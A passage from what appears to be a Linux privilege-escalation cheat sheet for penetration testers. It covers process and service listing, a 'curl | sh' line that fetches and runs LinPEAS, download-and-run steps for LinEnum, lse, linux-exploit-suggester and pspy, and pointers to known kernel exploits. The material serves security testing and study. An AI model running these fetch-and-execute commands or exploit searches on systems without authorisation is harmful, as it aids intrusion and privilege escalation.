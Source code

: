 ### Process Information
```bash
# Process list
ps aux
ps -ef
top
pstree

# Running services
systemctl list-units --type=service --state=running
service --status-all
```

## Automated Enumeration Tools
```bash
# LinPEAS
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# LinEnum
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh

# Linux Smart Enumeration (LSE)
wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh
chmod +x lse.sh
./lse.sh

# Linux Exploit Suggester
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
chmod +x linux-exploit-suggester.sh
./linux-exploit-suggester.sh

# pspy - unprivileged Linux process snooping
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
chmod +x pspy64
./pspy64
```

## Kernel Exploits

### Identify Kernel Version
```bash
uname -a
cat /proc/version
```

### Vulnerability Research Steps
1. Note the kernel version from `uname -a` output
2. Check for known vulnerabilities in that kernel version
3. Use searchsploit to find potential exploits:
   ```bash
   searchsploit linux kernel [version]
   ```
4. Common kernel exploits:
   - DirtyCow (CVE-2016-5195) - Linux Kernel 2.6.22 < 3.9
   - pwnkit (CVE-2021-4034) - Polkit pkexec
   - Dirty Pipe (CVE-2022-0847) - Linux Kernel 5.8 - 5.16.11
